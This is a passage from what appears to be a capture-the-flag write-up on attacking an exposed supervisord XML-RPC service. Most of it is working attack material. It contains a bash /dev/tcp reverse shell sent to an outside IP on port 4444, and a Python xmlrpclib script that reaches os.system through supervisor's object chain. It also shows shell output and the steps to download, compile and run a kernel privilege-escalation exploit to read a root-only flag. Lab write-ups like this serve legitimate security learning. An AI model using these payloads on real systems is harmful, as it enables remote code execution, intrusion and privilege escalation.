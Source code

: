 with bash
```
server.supervisor.supervisord.options.execve("/bin/bash", ["-c", "/bin/bash -i >& /dev/tcp/142.93.194.254/4444 >&0"], {}) 
```

Ok so none of that actually worked, but nice try!!

well it turns out if i read the source closer `execve` is a variant that will replace the supervisor process with whatever you specify, which is why
it was crashing.  Unfortunately in order to get it restarted i had to get the security team to manually do so, so thats no good.

This time i am going to try a different exploit (one that doesnt involve execve) that way i dont crash supervisord if it dont work.


```python
from xmlrpclib import ServerProxy

#command = 'bash -c "bash -i >& /dev/tcp/142.93.194.254/4444 >&0 &"'
command = '/bin/bash -c "2<&196;exec 196<>/dev/tcp/142.93.194.254/4444; sh <&196 >&196 2>&196"'

server = ServerProxy('http://54.153.0.160:9001/RPC2')

result = server.supervisor.supervisord.options.warnings.linecache.os.system(command)
#result = server.supervisor.supervisord.options.execve("/bin/bash", [command], {})
print(result)
```

woof we are in !  this shell isnt as pretty because it isnt a real shell, more like just character forwarding, but whatever who are we and where?

```
Connection from [54.153.0.160] port 4444 [tcp/*] accepted (family 2, sport 43230)

whoami
nobody
uname
Linux
uname -r
4.4.0-62-generic
```

well thats not helpful that means i cant read the flag which is in /root/flag.txt
looking at the version of the kernel we see that it is actually vulnerable to privelege escalation attack, so lets get it !

https://www.exploit-db.com/exploits/41458/

unfortunately this exploit also crashes the kernel, so maybe you have 1 or 2 commands worth of time, before you gotta wait for the restart.

```
cd /tmp
wget https://www.exploit-db.com/download/41458.c
gcc 41458.c -o pwn
chmod +x pwn
./pwn
```
now we can dump the flag    
